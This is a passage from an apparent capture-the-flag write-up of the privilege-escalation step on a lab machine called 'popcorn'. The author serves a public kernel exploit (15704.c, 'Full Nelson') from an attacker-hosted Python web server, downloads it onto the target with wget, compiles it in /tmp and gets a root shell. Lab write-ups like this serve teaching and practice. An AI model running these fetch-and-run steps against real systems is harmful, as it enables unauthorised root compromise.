 ```
----------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

Vaguely recalling a morning commute read the Full and Half Nelsons ring a bell as a reliable and deadly exploit.

After reading through 15704.c and doing a test compile on the attacker it looks decent enough but I need a compiler for i686 arch to run.

I check for the gcc compiler on popcorn:

``` bash
which gcc
```

to get

```
/usr/bin/gcc
```

Sweet, if I transfer the exploit it should compile, now on a new window I pop a quick python webserver on the attacker:

```
sudo python -m SimpleHTTPServer 80
```

Back to popcorn I move to /tmp pull the exploit over with wget and compile:

```
cd /tmp && wget http://10.10.14.34/15704.c
gcc 15704.c -o evil
```

I run the exploit

```
./evil
```

Boom! I'm root! W00tW00t!

```
id
uid=0(root) gid=0(root)
```

Time to get the flags.